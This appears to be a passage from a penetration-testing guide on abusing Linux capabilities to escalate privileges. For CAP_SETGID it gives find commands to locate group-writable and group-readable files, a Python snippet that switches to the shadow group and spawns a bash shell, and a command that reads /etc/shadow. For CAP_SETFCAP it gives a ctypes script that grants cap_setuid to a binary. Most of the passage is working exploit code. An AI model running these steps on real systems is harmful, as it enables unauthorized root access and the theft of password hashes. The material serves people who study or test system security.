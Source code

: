 ### CAP\_SETGID

**This means that it's possible to set the effective group id of the created process.**

There are a lot of files you can **overwrite to escalate privileges,** [**you can get ideas from here**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

#### Example with binary

In this case you should look for interesting files that a group can read because you can impersonate any group:

```bash
#Find every file writable by a group
find / -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file writable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file readable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=r -exec ls -lLd {} \; 2>/dev/null
```

Once you have find a file you can abuse (via reading or writing) to escalate privileges you can **get a shell impersonating the interesting group** with:

```python
import os
os.setgid(42)
os.system("/bin/bash")
```

In this case the group shadow was impersonated so you can read the file `/etc/shadow`:

```bash
cat /etc/shadow
```

If **docker** is installed you could **impersonate** the **docker group** and abuse it to communicate with the [**docker socket** and escalate privileges](./#writable-docker-socket).

### CAP\_SETFCAP

**This means that it's possible to set capabilities on files and processes**

#### Example with binary

If python has this **capability**, you can very easily abuse it to escalate privileges to root:

{% code title="setcapability.py" %}
```python
import ctypes, sys

#Load needed library
#You can find which library you need to load checking the libraries of local setcap binary
# ldd /sbin/setcap
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p,ctypes.c_void_p]

#Give setuid cap to the binary
cap = 'cap_setuid+ep'
path = sys.argv[1]
print(path)
cap_t = libcap.cap_from_text(cap)
status = libcap.cap_set_file(path,cap_t)

if(status == 0):
    print (cap + " was successfully added to " + path)
```